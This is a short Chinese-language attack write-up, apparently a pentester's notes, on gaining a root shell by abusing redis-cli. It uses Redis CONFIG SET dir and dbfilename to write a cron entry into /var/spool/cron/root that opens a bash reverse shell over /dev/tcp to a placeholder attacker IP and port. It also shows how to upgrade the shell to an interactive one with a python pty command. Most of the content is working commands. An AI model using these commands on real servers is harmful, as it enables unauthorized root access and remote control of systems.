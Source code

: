 >`redis-cli`是Redis命令行工具，是一个命令行客户端程序，可以将命令直接发送到Redis，并直接从终端读取服务器返回的应答,有交互模式和参数模式
>
>redis-cli，不需要认证可以直接启动并连接redis服务器

首先redis-cli需要交互模式，但是反弹shell不是交互模式，我们需要将非交互模式变为交互模式

![image-20220417110745386](C:/Users/15908387732/AppData/Roaming/Typora/typora-user-images/image-20220417110745386.png)

这就是因为shell是非交互模式，不能与服务器直接进行交互



第一种方法

redis-cli 执行lua脚本是不能执行配置文件那些命令的，但是可以通过shell脚本来执行

进行下面的操作

这儿我尝试了好久，才成功

`redis-cli <<-END`应该是打开终端

```
bash-4.2$ redis-cli <<-END
redis-cli <<-END
> set task "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/你的ip/端口 0>&1\n\n"
set task "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/你的ip/端口 0>&1\n\n"
> config set dir /var/spool/cron
config set dir /var/spool/cron
> config set dbfilename root
config set dbfilename root
> save
save
> END
END

```

然后监听就可以得到root的shell

![image-20220417122045247](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202204171230524.png)



第二种方式，就是将普通的[非交互式shell变为交互式shell](https://www.jianshu.com/p/e7202cb2c3dd)

vps上输入下面操作，获得交互式shell后

```
$ python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
$ stty raw -echo;fg
$ reset
$ export SHELL=bash
//$ export TERM=xterm-256color
```

利用redis-cli写定时任务提权

```
config set dir /var/spool/cron/
config set dbfilename root
set x "\n* * * * * bash -i >& /dev/tcp/ip/port 0>&1\n"
save
```
